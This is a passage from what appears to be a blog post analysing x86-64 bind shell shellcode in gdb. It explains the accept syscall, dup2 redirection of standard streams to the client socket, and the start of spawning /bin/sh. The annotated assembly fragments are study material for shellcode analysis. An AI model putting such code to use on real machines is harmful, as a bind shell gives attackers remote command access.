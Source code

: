 pop    rax

; clear RDX by sign-extension
cdq    

; push 16 NULL bytes (empty sockaddr structure)
push   rdx
push   rdx

; 2nd argument of accept: buffer for the sockaddr_in6 struct
; should be 28 bytes, but in this case it's only 16
push   rsp
pop    rsi

; 3rd argument of accept: pointer to the size of the buffer
; in this case it's 28 bytes
push   0x1c
lea    rdx,[rsp]

; call syscall accept
syscall </code></pre><figcaption>Shellcode calling syscall accept</figcaption></figure><p>Nonetheless, the shellcode sets the third argument to 28. Doing so, the syscall will store a 28-bytes address starting from the base address indicated by the register <code>RSI</code>.</p><p>This way, the syscall would be able to overwrite the remaining 12 bytes if needed.</p><h2 id="io-redirection">I/O Redirection</h2><p>Once a connection has been accepted by the server socket, it needs to redirect three <em>standard file descriptors</em>:</p><ul>
<li>standard input (stdin) -&gt; file descriptor 0</li>
<li>standard output (stdout) -&gt; file descriptor 1</li>
<li>standard error (stderr) -&gt; file descriptor 2</li>
</ul>
<p>The shellcode uses the syscall <code>dup2</code> to redirect these file descriptors, looping from 2 to 0:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">(gdb) x/8i $pc

   ; save the file descriptor of the client socket into RDI
   ; 1st argument of dup2
=&gt; 0x4000b5:    xchg   rdi,rax

   ; 2nd argument of dup2
   ; file descriptor to redirect
   0x4000b7:    push   0x3
   0x4000b9:    pop    rsi
   
   ; use syscall 0x21: dup2
   0x4000ba:    push   0x21
   0x4000bc:    pop    rax
   
   0x4000bd:    dec    esi
   
   ; call dup2
   0x4000bf:    syscall
   
   ; go back to redirect the other standard file descriptors
   0x4000c1:    loopne 0x4000ba</code></pre><figcaption>Redirection of stdin, stdout, and stderr</figcaption></figure><h2 id="spawning-a-shell">Spawning a shell</h2><p>The last block of assembly instructions involves the usage of the syscall <code>execve</code> in order to spawn a shell.</p><p>In this case, after redirecting the standard file descriptors, the shellcode spawn a <code>/bin/sh</code> shell.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">(gdb) x/8i $pc
